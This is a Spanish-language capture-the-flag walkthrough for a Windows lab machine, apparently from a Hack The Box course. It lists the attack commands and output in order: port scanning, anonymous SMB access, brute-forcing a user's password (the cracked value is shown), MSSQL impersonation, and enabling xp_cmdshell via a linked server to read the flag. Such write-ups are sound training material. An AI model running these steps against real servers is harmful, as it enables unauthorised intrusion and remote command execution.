


# Práctica Final: Difícil 🐧

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**



* ❕ `ttl 127` -> Windows

---

1. Listamos los recursos compartidos en el **servicio SMB**
* `smbclient -L \\\\[IP] -N`

**Output**
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
Home            Disk      
IPC$            IPC       Remote IPC
```

---

2. Accedemos al **recurso** `Home`
* `smbclient \\\\[IP]\\Home -N`

* Al listar el contenido de este directorios nos encontramos con `3 Usuarios`

    

* Descargamos el contenido de todos los usuarios (Les ponemos nombres descriptivos o los almacenamos en directorios)

* Usamos `crackmapexec` para hacer **fuerza bruta** a `fiona` en el servicio **SMB**
    * `crackmapexec smb [IP] -u "fiona" -p fiona_creds.txt`

    **Output**
    ```
    SMB         10.129.203.10   445    WIN-HARD         [+] WIN-HARD\fiona:48Ns72!bns74@S84NNNSl
    ```

---

3. Nos autenticamos en el **servicio mssql** con el usuario `fiona`
* `impacket-mssqlclient fiona@10.129.203.10 -windows-auth`

---

4. Al explorar múltiples formas de ejecuta comandos, no podemos hacerlo, por lo cual haremos esto:

* Impersonamos al usuario `john`
    * `EXECUTE AS LOGIN = 'john'`
    * `SELECT IS_SRVROLEMEMBER('sysadmin');`
      * Output: **0** -> No podemos ejecutar comandos.

    * `sp_configure 'show advanced options', 1`
      * Output: `[-] ERROR(WIN-HARD\SQLEXPRESS): Line 105: User does not have permission to perform this action.`
        * No podemos cambiar los permisos para ejecutar comandos. :(
        * 

---

5. Listamos `servidores enlazados` 
    * `SELECT srvname, isremote FROM sysservers;`

    **Output**
    ```
    srvname                   isremote   

    -------------------       --------   

    WINSRV02\SQLEXPRESS         1   
    LOCAL.TEST.LINKED.SRV       0   
    ```
    + `1` Significa que el **servidor es local**
    + `0` Significa que el **servidor es enlazado**

---

6. Ahora trataremos de cambiar nuestros permisos para ejecutar comandos **impersonando** al usuario `john`
* `EXECUTE('sp_configure "show advanced option", 1') AT "LOCAL.TEST.LINKED.SRV";`
* `EXECUTE('RECONFIGURE') AT "LOCAL.TEST.LINKED.SRV";`
* `EXECUTE('sp_configure "xp_cmdshell", 1') AT "LOCAL.TEST.LINKED.SRV";`
* `EXECUTE('RECONFIGURE') AT "LOCAL.TEST.LINKED.SRV";`

Ahora podemos ejecutar comandos:

* `EXECUTE('xp_cmdshell "[COMANDO]"') AT "LOCAL.TEST.LINKED.SRV";`

7. Mostramos la **flag** 🏴
* `EXECUTE('xp_cmdshell "type \Users\Administrator\Desktop\flag.txt"') AT "LOCAL.TEST.LINKED.SRV";`


**Output**
`HTB{46u$!n9_l!nk3d_$3rv3r$}`